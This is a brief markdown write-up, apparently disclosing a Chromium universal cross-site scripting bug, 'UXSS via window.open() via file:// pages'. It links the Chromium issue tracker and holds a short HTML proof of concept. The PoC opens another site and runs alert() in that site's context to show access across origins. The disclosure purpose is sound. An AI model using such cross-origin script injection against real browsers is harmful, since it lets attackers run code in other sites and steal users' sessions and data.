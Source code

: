 # Security: UXSS via window.open() via file:// pages

<video src="./steps.mp4" />

Poc:
```html
<button onclick="fsBypass(document.documentElement);">click Here</button>
<script>
function fsBypass(element) {
  var x = window.open("http://abc.xyz");
  x.alert();
  setTimeout(function(){x.alert(x.document.domain);}, 70)
}
</script>
```

https://bugs.chromium.org/p/chromium/issues/detail?id=594383
